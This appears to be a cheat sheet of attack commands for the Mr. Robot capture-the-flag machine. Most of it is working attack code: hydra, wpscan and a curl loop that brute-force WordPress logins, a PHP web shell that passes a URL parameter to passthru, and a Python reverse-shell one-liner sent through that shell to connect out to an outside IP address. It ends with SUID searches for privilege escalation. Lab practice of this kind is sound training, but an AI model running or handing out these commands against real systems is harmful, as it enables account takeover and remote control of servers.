 ### How to scan ports with nmap
```bash
IP_ADDR=
nmap -sV -sC -oA initial $IP_ADDR
```
### How to enumerate web server directories
```bash
WORDLISTS=
gobuster dir -u http://${IP_ADDR} -w ${WORDLISTS} -t 100 -q -o gobuster.txt
```
## How to filter unique string
```bash
wc -l fsocity.dic # number of lines
sort fsocity.dic | uniq | wc -l # unique words
sort fsocity.dic | uniq > example_filtered.txt
```
### A LOTL attack 
```bash
username="admin"
password="password"
for pass in $(cat passwords.txt); do curl -s -X POST -d "<?xml version='1.0'?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>$username</value></param><param><value>$pass</value></param></params></methodCall>" http://10.10.6.115/xmlrpc.php | grep -q 'Incorrect username or password.' || echo "Found credentials: $username:$pass"; done
```
### How to bruteforce input fields with hydra
Username
```bash
IP_ADDR=
hydra -L fsocity.dic -p example $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
hydra -L fsocity.di -p example $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP_ADDR%2Fwp-admin%2F&testcookie=1:Invalid Username" -t 30
```
Password
```bash
IP_ADDR=
hydra -l elliot -P fsocity.dic $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP_ADDR%2Fwp-admin%2F&testcookie=1:The password you entered for the username"
```
### How to bruteforce input fields with wpscan
```bash
wpscan --url http://${IP_ADDR} --passwords fsocity.dic --usernames Elliot  
```
### How to reverse shell
https://github.com/pentestmonkey/php-reverse-shell
```bash
nc -lvnp 4444
```
### Reverse shell using cmd
archive.php
```bash
<?php
if (isset($_GET['cmd'])) {
    passthru($_GET['cmd']);
}
?>
```
on the URL
```bash
http://3.95.226.44/wp-content/themes/twentyfifteen/archive.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3.80.82.197",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### How to escalate priv with SUID bit set
https://gtfobins.github.io/gtfobins/nmap/
```bash
find / -perm -4000 -type f 2>/dev/null
find / -perm +6000 2>/dev/null | grep '/bin/'
```
### How to hack xmlrpc
https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html
### Resource
https://www.blackhillsinfosec.com/hacking-with-hydra/

https://blog.christophetd.fr/write-up-mr-robot/

https://medium.com/@hackermentor/vulnhub-mr-robot-walkthrough-9309702b8e8
